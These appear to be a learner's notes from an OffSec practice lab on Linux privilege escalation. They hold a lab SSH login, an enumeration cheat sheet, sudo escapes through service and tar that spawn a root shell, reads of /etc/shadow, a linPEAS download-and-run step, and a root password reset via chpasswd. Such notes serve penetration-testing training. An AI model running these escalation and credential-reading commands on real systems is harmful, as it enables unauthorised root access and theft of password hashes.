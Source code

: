 
https://portal.offsec.com/labs/play
```
chmod 400 id_rsa_max

ssh -i id_rsa_max max@192.168.246.78

SoSimple
```

https://gtfobins.github.io
LOL-BIN Repository

```
# identify current privs
sudo -l
# check your user/id
id
whoami
# hostname
hostname
uname -n
cat /etc/hostname
# check os
uname -a
cat /etc/issue
lsb_release -a
cat /etc/os-release
# check processes
ps aux
ps aux | grep root
htop
#check ports / internal ports can be vuln
ip a
netstat -tulpn  
netstat -an  
ss -tulpn  
ss -tupan
# running routes
ip route show
# firewall
ufw
iptables
firewall-cmd
# cronjobs
crontab -l
cat /etc/crontab
# list all installed packages
dkpg -l
apt list --installed
# find writable dirs
find / -type d -writable 2>/dev/null
find / -type f -perm -4000 2>/dev/null

```

```


chmod +x <root no pass file>.sh
```

```
sudo -u steven service --status-all
sudo -u steven service ../../bin/sh
```


Weak file permissions

```
ls -la /etc/passwd
ls -la /etc/shadow

cat /etc/shadow

# check cronjobs
# sudo sgid / suid files
# services 
# tar escalation 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

```
cat /etc/passwd | grep -v nologin | grep -v false | awk -F: '{print $1}' > users.txt
```

https://github.com/JlSakuya/Linux-Privilege-Escalation-Exploits

https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS


```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh

chmod +x linpeas.sh 

./linpeas.sh > output.txt

cat output.txt | grep writable
```

```
echo "root:password123" | /sbin/chpasswd
```




